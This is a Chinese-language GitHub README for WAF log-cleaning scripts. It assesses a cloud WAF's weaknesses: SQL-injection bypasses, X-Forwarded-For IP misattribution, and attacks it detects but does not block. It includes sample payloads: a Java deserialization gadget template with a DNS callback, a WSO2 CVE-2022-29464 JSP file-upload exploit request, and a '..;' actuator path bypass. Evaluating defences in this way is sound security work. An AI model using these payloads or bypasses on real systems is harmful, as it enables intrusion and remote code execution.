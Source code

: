 # waf-log-clean-data-script
存放在工作中为了从大量日志中清洗出有用的数据的脚本
# 移动云waf
不好用

1.无法设置全局封禁ip

2.SQL注入使用内联注释可绕过,存在MD5编码绕过，CHR()函数构造绕过，以及最普通的SQL注入存在概率放行

3.数据包X-Forwarded-For:IP0,IP1,IP2... IP0为攻击者真实IP，移动云waf显示为IP2。

4.反序列化攻击流量paylaodbase64编码，能检测但不阻拦 

样本
```
bundle={{concat(url_encode(base64(aes_cbc(base64_decode(generate_java_gadget("dns", "http://{{reverse.url}}", "base64")), base64_decode("Dmmjg5tuz0Vkm4YfSicXG2aHDJVnpBROuvPVL9xAZMo="), base64_decode("QUVTL0NCQy9QS0NTNVBhZA==")))), '$2')}}
```

5.文件上传有概率，检测但不阻拦

样本:
```
POST /fileupload/toolsAny HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Kubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Connection: close Content-Length: 375
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
Accept-Encoding: gzip
X-Forwarded-For:  -----------------------------250033711231076532771336998311
Content-Disposition: form-data;

name="../../../../repository/deployment/server/webapps/authenticationendpoint/2yjbn94qnqeqdikvv30zcavar2a.jsp";filename="test.jsp" Content-Type: application/octet-stream <% out.print("WSO2-RCE-CVE-2022-29464"); %> -----------------------------250033711231076532771336998311--
```

6.使用`..;`可以进行被绕过
样本:

```
/aspnet_client/actuator/aspnet_client/actuator/env/..;/..;/..;//actuator/env
```
7.内置攻击类型有十几种，但实际检测攻击流量类型只有那么4,5种。 就如上面第5点的攻击流量并没有归纳到文件上传攻击类型
